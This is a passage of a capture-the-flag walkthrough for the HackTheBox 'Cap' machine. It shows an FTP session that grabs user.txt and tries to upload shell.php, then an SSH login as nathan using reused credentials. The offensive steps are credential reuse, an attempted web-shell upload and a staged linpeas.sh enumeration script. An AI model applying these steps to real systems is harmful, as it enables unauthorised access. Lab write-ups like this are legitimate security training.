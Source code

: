```bash
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1001     1001          342 Sep 21 15:22 index.html
-rwxrwxr-x    1 1001     1001       473222 Sep 21 15:22 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Sep 21 15:24 snap
-r--------    1 1001     1001           33 Sep 21 15:11 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (163.5866 kB/s)
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
550 Permission denied.
ftp> exit
221 Goodbye.

```

* I tried to upload the shell into FTP but it did not work because I dont have permissions to upload a file.
* Then I tried to login to the nathan user ssh using the same creds and it worked .

```bash

┌──(alien0ne㉿kali)-[~/Desktop/hackthebox/cap]
└─$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Sep 21 18:13:18 UTC 2021

  System load:           0.08
  Usage of /:            36.7% of 8.73GB
  Memory usage:          33%
  Swap usage:            0%
  Processes:             225
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:3c22

  => There are 3 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
```